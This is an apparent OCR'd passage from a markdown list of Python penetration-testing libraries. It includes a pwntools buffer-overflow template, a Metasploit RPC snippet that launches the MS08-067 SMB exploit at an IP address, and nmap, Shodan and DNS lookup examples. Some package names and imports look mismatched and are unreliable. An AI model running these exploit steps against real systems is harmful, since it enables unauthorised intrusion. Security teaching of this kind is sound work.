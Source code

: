     context.binary = './vulnerable_binary'
    io = process('./vulnerable_binary')
    io.sendline(b'A' * 40 + p64(0xdeadbeef))
    io.interactive()
    ```

- **metasploit==4.0.0**
  - Description: A wrapper for the Metasploit Framework.
  - Example:
    ```python
    from metasploit.msfrpc import MsfRpcClient

    client = MsfRpcClient('password')
    console = client.consoles.console()
    console.write('use exploit/windows/smb/ms08_067_netapi\n')
    console.write('set RHOST 192.168.1.1\n')
    console.write('run\n')
    print(console.read())
    ```

### Enumeration and Scanning

- **python-nmap==0.7.1**
  - Description: A Python library which helps in using nmap port scanner.
  - Example:
    ```python
    import nmap

    nm = nmap.PortScanner()
    nm.scan('127.0.0.1', '22-443')
    print(nm.csv())
    ```

- **shodan==1.28.0**
  - Description: A Python library for interacting with the Shodan API.
  - Example:
    ```python
    import shodan

    api = shodan.Shodan('YOUR_API_KEY')
    results = api.search('apache')
    for result in results['matches']:
        print(result['ip_str'], result['data'])
    ```

- **dnsrecon==1.0.0**
  - Description: A tool for DNS reconnaissance.
  - Example:
    ```python
    import dns.resolver

    result = dns.resolver.resolve('example.com', 'A')
    for ipval in result:
        print('IP', ipval.to_text())
    ```

